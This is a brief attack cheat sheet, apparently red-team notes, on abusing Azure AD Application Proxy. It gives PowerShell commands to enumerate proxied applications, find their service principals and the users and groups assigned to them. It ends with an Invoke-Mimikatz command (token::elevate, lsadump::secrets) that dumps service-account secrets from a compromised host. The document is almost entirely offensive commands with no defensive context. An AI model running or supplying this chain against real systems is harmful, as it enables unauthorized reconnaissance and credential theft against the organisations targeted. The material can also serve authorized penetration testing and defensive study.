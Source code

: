 # Application Proxy Abuse

## Steps

#### 1) Enumerate Applications with Application Proxy configured

    Import-Module .\AzureAD.psd1

    Get-AzureADApplication | ForEach-Object {
      try {
          Get-AzureADApplicationProxyApplication -ObjectId $_.ObjectId
          $_.DisplayName
          $_.ObjectId
        }   catch {}
    }

#### 2) Get the Service Principal (Use the Application Name)

    Get-AzureADServicePrincipal -All $true | Where-Object { $_.DisplayName -eq "<APPLICATION NAME>" }

#### 3) Find Users and Groups Assigned to the Application

    . .\Get-ApplicationProxyAssignedUsersAndGroups.ps1

    Get-ApplicationProxyAssignedUsersAndGroups -ObjectId <OBJECT ID OF SERVICE PRINCIPAL>

#### 4) Extract Secrets of Service Account: After compromising the application, use Mimikatz to extract secrets

    Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
